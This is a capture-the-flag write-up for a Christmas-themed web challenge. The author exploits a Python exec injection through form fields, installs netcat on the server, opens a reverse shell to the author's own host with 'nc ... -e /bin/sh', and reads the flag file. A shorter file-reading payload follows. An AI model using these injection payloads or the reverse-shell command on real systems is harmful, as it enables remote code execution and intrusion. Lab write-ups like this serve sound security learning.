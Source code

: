 # Challenge

So Santa wants some postcards from all you out there. But one tired developer elf has made a tiny mistake.

Can you see if you can find Santa's secret message? 

http://santaspostcards.norwayeast.azurecontainer.io:1337/

> **Hint:** Ok, are there any standard files like favicon.ico associated with websites?

# Writeup

Based on the first hint it says there are other files like favicon.ico, I jump straight to robots.txt. 

```
Disallow: /img/dbg
Disallow: /img/*
```

Quickly opened `/img/dbg` and saw the page source in python. Seeing that it runs a exec I understand we are pwning now. So I quickly figure out what it and see that if I send `stamp = x` and `naughtykid = 5*3` it will evaluate `x = 5*3` and return the value. A quick test:

```
curl -H "Content-Type: application/x-www-form-urlencoded" -X POST http://santaspostcards.norwayeast.azurecontainer.io:1337/ -d "stamp=x&naughtykid=5*3"
```

This adds 15 in the templates as `5*3 = 15`. So I can change 5*3 with any code I want. 

I quickly google `reverse shell python` exited as I am. Finds out that I can run bash commands with `__import__('subprocess').run([command], capture_output=True)`. 

So here starts my journy of using "nc" to reverse shell. I load up `nc -nlvp 1234` on my server. And runs the following requests:

```python
stamp = 'x' # always x, I really dont care.

# Request 1: I tested for NC but it did not exists so I install it on the server. What an nice guy?
naughtykid = __import__('subprocess').run(['apt', 'update'], capture_output=True) 
# Request 2: Install.
naughtykid = __import__('subprocess').run(['apt', 'install', '-y', 'netcat'], capture_output=True) # Installerer netcat
# Request 3: Setup reverse shell
naughtykid = __import__('subprocess').run(['nc', 'IP', '1234', '-e', '/bin/sh'], capture_output=True) # Netcat til min server
```

When connected I did this to get a better bash, only for Quality Of Life.

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

Then started browsing! :)

```bash
$ root@SandboxHost-638043786806304989:/app# ls -lah
ls -lah
total 64K
drwxr-xr-x 1 root root 4.0K Dec  3 01:38 .
drwxr-xr-x 1 root root 4.0K Dec  1 13:47 ..
drwxr-xr-x 1 root root 4.0K Dec  3 01:40 .git
drwxr-xr-x 2 root root 4.0K Nov 18 14:30 __pycache__
-rw-r--r-- 1 root root 1.4K Nov 18 14:30 app.py
-rw-r--r-- 1 root root 2.0K Nov 18 14:30 azure-pipelines.yml
-rw-r--r-- 1 root root  172 Nov 18 14:30 dockerfile
-rw-r--r-- 1 root root    1 Dec  3 01:23 fakeflag.txt
-rw-r--r-- 1 root root   17 Nov 18 14:30 flag.txt
-rw-r--r-- 1 root root    5 Nov 18 14:30 requirements.txt
-rw-r--r-- 1 root root   35 Nov 18 14:30 robots.txt
drwxr-xr-x 1 root root 4.0K Dec  3 00:51 static
drwxr-xr-x 2 root root 4.0K Nov 18 14:30 templates
-rw-r--r-- 1 root root   81 Dec  3 01:38 writeup.md

$ root@SandboxHost-638043786806304989:/app# cat flag.txt
cat flag.txt
${N0_M0RE_CKR3TZ}
$ root@SandboxHost-638043786806304989:/app#
```

# Quicky solution found afterwards:

```python
stamp = x
naughtykid = ','.join(__import__('glob').glob('/*')) # Shows the content of the folder in the webpage
naughtykid = ','.join(__import__('glob').glob('/app/*')) # Browsing into the app folder
naughtykid = open('/app/flag.txt', 'r').read() # Reading flag.txt 

#Solution: ${N0_M0RE_CKR3TZ}
```